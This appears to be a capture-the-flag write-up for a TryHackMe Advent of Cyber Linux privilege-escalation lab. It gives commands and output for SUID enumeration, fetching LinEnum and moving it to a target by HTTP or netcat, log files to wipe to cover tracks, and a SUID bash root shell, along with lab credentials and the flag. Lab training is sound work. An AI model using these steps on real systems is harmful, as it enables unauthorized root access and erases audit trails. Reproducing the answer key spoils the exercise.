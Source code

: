 # TRYHACKME: ADVENTOFCYBER2 [DAY 11] NETWORKING - The Rogue Gnome: Prelude

```
This is it - the moment that Elf McEager has been waiting for. It's the final exam of the Nmap course that he enlisted on during "Day 8 - What's Under the Christmas Tree?". It looks like all that hard work of hitting the books has paid off..."Success!" Elf McEager screams..."the exploit worked! Yippeee!"

Elf McEager has successfully managed to create a reverse shell from the target back to his computer. Little did he know, the real exam begins now...The last stage of the exam requires Elf McEager to escalate his privileges! He spent so much time studying Nmap cheatsheets that he's now drawing a blank...Can you help Elf McEager?

To be the good guy, sometimes you gotta be the bad guy first...
```

TOPICS: Privilege escalation, DVWA, SUID, GTFOBins, Enumeration Scripts (LinEnum)

```
SUID - permission bit that allows users to run the executable as whoever owns it (without having to be /etc/sudoers)

find / -perm -u=s -type f 2>/dev/null
```

```
LinEnum - https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh

wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
python3 -m http.server 8080 # turn our machine into a webserver to serve the file to the target machine
# fetch via wget, or netcat (nc -l -p 1137 > LinEnum.sh; nc -w 3 TARGET_IP 1137 < LinEnum.sh)
```

```
covering up our tracks

/var/log/auth.log
/var/log/syslog
/var/log/<service>/*.log
```

### QUESTIONS

What type of privilege escalation involves using a user account to execute commands as an administrator?

```
vertical
```

What is the name of the file that contains a list of users who are a part of the sudo group?

```
sudoers
```

Use SSH to log in to the vulnerable machine.

```
ssh cmnatic@10.10.60.244
passwd aoc2020
```

Enumerate the machine for executables that have had the SUID permission set. Look at the output and use a mixture of GTFObins and your researching skills to learn how to exploit this binary.  You may find uploading some of the enumeration scripts that were used during today's task to be useful.

```
$ find / -perm -u=s -type f 2>/dev/null

/usr/bin/newgidmap
/usr/bin/at
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/pkexec
/usr/bin/newuidmap
/usr/bin/traceroute6.iputils
/usr/bin/chsh
```

Use this executable to launch a system shell as root.  What are the contents of the file located at /root/flag.txt?

```
-bash-4.4$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1113504 Jun  6  2019 /bin/bash
-bash-4.4$ bash -p
bash-4.4# whoami
root
bash-4.4# cat /root/flag.txt
thm{2fb10afe933296592}
```

